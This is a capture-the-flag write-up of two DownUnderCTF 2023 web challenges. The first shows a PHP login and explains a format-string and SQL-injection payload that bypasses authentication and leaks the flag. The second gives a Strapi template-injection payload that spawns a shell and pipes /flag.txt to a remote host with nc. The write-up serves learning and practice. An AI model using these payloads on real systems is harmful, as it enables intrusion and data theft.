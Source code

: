 # downunderctf 2023

# **Smooth Jazz**

## **Source Code**

```php
<?php
function mysql_fquery($mysqli, $query, $params) {
  return mysqli_query($mysqli, vsprintf($query, $params));
}

if (isset($_POST['username']) && isset($_POST['password'])) {
  $mysqli = mysqli_connect('db', 'challuser', 'challpass', 'challenge');
  $username = strtr($_POST['username'], ['"' => '\\"', '\\' => '\\\\']);
  $password = sha1($_POST['password']);

  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "%s"', [$username]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Username not found.";
     goto fail;
  }
  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "'.$username.'" AND password = "%s"', [$password]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Invalid password.";
     goto fail;
  }
  $htmlsafe_username = htmlspecialchars($username, ENT_COMPAT | ENT_SUBSTITUTE);
  $greeting = $username === "admin" 
      ? "Hello $htmlsafe_username, the server time is %s and the flag is %s"
      : "Hello $htmlsafe_username, the server time is %s";

  $message = vsprintf($greeting, [date('Y-m-d H:i:s'), getenv('FLAG')]);
  
  fail:
}
?>
```

## **Prerequisite knowledge**

- Mysql engine **truncates** string from the beginning of an invalid UTF8-encoding character.
- Familiarity with the **format** parameter and the behavior of the **vsprintf** function in PHP.
    - `vsprintf(string $format, mixed ...$values): string`
        - **Format parameter**:
            - `%[argnum$][flags][width][.precision][specifier]`
                - Example: `%1$'as`
                  
                    > %: starting symbol
                    > 
                    > 
                    > **1$**: [argnums$] :match the first value from values that are passed in.
                    > 
                    > **'a**: one option of the [flags] -> '(char): Replace blank with 'a' to pad the result string. For example, when [width] is set to 100 and the real length of the formatting string is only 5, the rest of the 95 characters would be padded with the letter 'a'.
                    > 
                    > **s**: [specifier]: specify the data type for each data from inputted values. `%` is also a specifier, used for output real `%`, which is a tricky one for smuggling a new token by combining it with the **htmlspecialchars** function.
                    > 

## **Payload Example**

```
POST /username=admin%ff%251$c%23+%251$'>%25s&password=668
```

- **%ff**: This truncates the string after "admin". From the MySQL engine's perspective, the input characters are interpreted as "admin".
- **%251$c**(after URL decoding becomes **%1$c**): This positional specifier manipulates the sprintf function to format the string as desired. In other words, it controls the real transfer stream and achieves our expectations by combining with the password value.
  
    The reason we can't use %c directly to format the password field is that string formatting typically proceeds in order. It maps each item of an input array to its respective position as defined by the specifiers. So we need to specify which data to render, avoiding the error.
    
    > PHP Fatal error:  Uncaught ValueError: The arguments array must contain 2 items, 1 given in /var/www/html/index.php:3\nStack trace:\n#0 /var/www/html/index.php(3): vsprintf()
    > 
- **password=668**: The SHA1 of 668 is 34cXXXXX. %34 represents a URL-encoded **double-quote**. Using vsprintf("%1$c", 34) generates a double-quote, exploiting SQL Injection to bypass password authentication.
- **%251$'>%25s** (URL DECODING)-> **%1$'>%s**: the last step to do is get flag. Although we can not make the username totally match "admin", we can inject a specifier as above to exfiltrate the second 'FLAG' formatting input.
- To that end, there is a problem emerging. We can not pass two specifiers into the username field, since the previous vsprintf functions all only accept one input value. This means that directly passing two specifiers will cause an error in the PHP interpreter, as previously discussed. So the key point is to leverage `htmlspecialchars` function to "create a specifier" for us. That is what this payload did.
- %1$'>%s --htmlspecialchars--> %1$'&gt;%s
    - The first specifier, **%1$'&g**, represents a floating-point number taken from position 1, using '&' as the padding character.
    - followed by the string "t;"
    - The second specifier: **%s**: string taken from the 2nd position, that is where the FLAG is.
- That is how we arrived there.

# **Strapi In**

> Strapi In is a really fun one! Since the challenge is derived from a **0-day vulnerability**, I finished it myself 🤩 and successfully made a contribution to https://github.com/swisskyrepo/PayloadsAllTheThings, a well-known payloads project! 🥳
> 

Quick Write-up for STRAPI IN:

Step 1: Create a custom template with a reference ID of 1.

```
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","nc **YOUR_IP YOUR_PORT** < /flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

Step 2: Visit the url: [https://web-strapi-in-6a0f1abf2bf0cbc0.2023.ductf.dev/api/sendtestemail/1](https://web-strapi-in-6a0f1abf2bf0cbc0.2023.ductf.dev/api/sendtestemail/1)

**for debug tips**

`/opt/strapi-in/node_modules/strapi-plugin-email-designer/server/services/email.js:91:87`

![https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png)

![https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190324305.png](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190324305.png)

## **mustache template with Lodash SSTI payloads**

```
{{= _.VERSION }}{{= _.templateSettings.evaluate }}
```

[https://github.com/janl/mustache.js](https://github.com/janl/mustache.js)

## **Reference**

[https://www.php.net/manual/en/function.sprintf.php#Specifiers](https://www.php.net/manual/en/function.sprintf.php#Specifiers)

[https://www.php.net/manual/en/function.htmlspecialchars.php](https://www.php.net/manual/en/function.htmlspecialchars.php)

[https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/web/smooth-jazz/solve/solution.py](https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/web/smooth-jazz/solve/solution.py)

[https://www.geeksforgeeks.org/lodash-_-template-method/](https://www.geeksforgeeks.org/lodash-_-template-method/)

[https://twitter.com/rootxharsh/status/1268181937127997446?lang=en](https://twitter.com/rootxharsh/status/1268181937127997446?lang=en)

[https://www.ghostccamm.com/blog/multi_strapi_vulns/](https://www.ghostccamm.com/blog/multi_strapi_vulns/)

[https://lodash.com/docs/4.17.15#templateSettings](https://lodash.com/docs/4.17.15#templateSettings)